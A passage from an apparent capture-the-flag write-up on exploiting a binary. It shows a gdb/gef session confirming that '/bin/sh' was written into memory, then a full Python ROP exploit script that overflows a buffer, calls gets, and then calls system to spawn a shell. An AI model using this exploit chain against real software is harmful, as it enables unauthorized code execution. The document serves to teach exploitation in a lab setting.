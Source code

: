 After proving the string, it stops the execution and the `gdb` session displays a segfault. Let's check if the string was stored by checking the value at the address.

```
gef➤  c
Continuing.
Program received signal SIGILL, Illegal instruction.
0x0000000000401100 in _start ()
[ Legend: Modified register | Code | Heap | Stack | String ]
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── registers ────
$rax   : 0x00000000404450  →  0x68732f6e69622f ("/bin/sh"?)
...
gef➤  x/s 0x404050 + 0x400
0x404450:       "/bin/sh"
```

We successfully stored the string "/bin/sh" at the address `0x404450`. Now, we need to construct a ROP chain.

```python
payload += p64(pop_rdi)
payload += p64(0x404450) #0x404050 + 0x400 (offset) has /bin/sh
payload += p64(elf.plt['system']) #execute that /bin/sh
```

This will load the address `0x404450` to the `rdi` register which is used to store the value of first argument. Let's put it all together in our exploit script.

```python
┌──(kali㉿kali)-[~]
└─$ cat xpl.py 
from roppy import *
p = process("./binary-file")
elf = ELF("binary-file")
pop_rdi = 0x4012e3
payload = b"A"*264
payload += p64(pop_rdi)
payload += p64(0x404050 + 0x400)
payload += p64(elf.plt['gets'])

payload += p64(pop_rdi)
payload += p64(0x404450)
payload += p64(elf.plt['system'])
'''
f = open("xploit.txt", "wb")
f.write(payload)
f.close()
'''

p.sendline(payload)
p.interactive()
```
{% endtab %}

